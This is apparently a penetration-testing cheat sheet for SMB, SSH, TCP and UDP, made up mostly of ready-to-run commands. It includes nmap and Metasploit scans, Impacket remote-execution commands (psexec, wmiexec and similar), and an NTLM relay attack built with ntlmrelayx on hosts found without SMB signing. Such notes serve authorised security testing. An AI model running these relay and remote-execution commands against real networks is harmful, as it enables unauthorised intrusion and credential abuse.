 ### <a name='smb'></a>smb
* default port: 139,445
* [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb) / [thehacker.recipes](https://www.thehacker.recipes/infra/protocols/smb) / [rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html)

```sh
# scan nmap
nmap -p 445 --script smb2-security-mode $ztarg_subnet -o output.txt

# scan metasploit
msf > auxiliary/scanner/smb/smb_version

# login 
atexec.py $zz@$ztarg_computer_ip systeminfo
dcomexec.py $zz@$ztarg_computer_ip
psexec.py $zz@$ztarg_computer_ip
smbexec.py $zz@$ztarg_computer_ip
wmiexec.py $zz@$ztarg_computer_ip

# mitm
grep -B 9 "not required" output.txt |sed -E '/.*\((.*\..*\..*\..*)\)$/!d' |sed -E 's/.*\((.*\..*\..*\..*)\)$/\1/' > targets.txt
python3 ntlmrelayx.py -tf targets.txt -smb2support

```

### <a name='ssh'></a>ssh

* defaut port: 22
* [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh) / [thehacker.recipes](https://www.thehacker.recipes/infra/protocols/ssh)

### <a name='tcp'></a>tcp
* default port: 1-65535
* [hacktricks](xxx)

```sh
#? NMAP TCP SYN/Top 100 ports scan
nmap -F -sS -Pn -oA nmap_tcp_fastscan $ztarg_subnet
nmap -F -sS -Pn -oA nmap_tcp_fastscan -iL hosts_up

#? NMAP TCP SYN/Version scan on all port
sudo nmap -sV -Pn -p0- -T4 -A --stats-every 60s --reason -oA nmap_tcp_fullscan $ztarg_subnet
sudo nmap -sV -Pn -p0- -T4 -A --stats-every 60s --reason -oA nmap_tcp_fullscan -iL hosts_up
```

### <a name='udp'></a>udp
* default port: 1-65535
* [hacktricks](xxx)

```sh
# NMAP UDP/Fast Scan
nmap -F -sU -Pn -oA nmap_udp_fastscan $ztarg_subnet
nmap -F -sU -Pn -oA nmap_udp_fastscan -iL hosts_up

#? NMAP UDP/Top 1000 ports scan
nmap -sU -Pn -oA nmap_udp_top1000_scan $ztarg_subnet
nmap -sU -Pn -oA nmap_udp_top1000_scan -iL hosts_up

#? NMAP UDP scan on all port scan
sudo nmap -sU -Pn -p0- --reason --stats-every 60s --max-rtt-timeout=50ms --max-retries=1 -oA nmap_udp_fullscan $ztarg_subnet
sudo nmap -sU -Pn -p0- --reason --stats-every 60s --max-rtt-timeout=50ms --max-retries=1 -oA nmap_udp_fullscan -iL hosts_up
```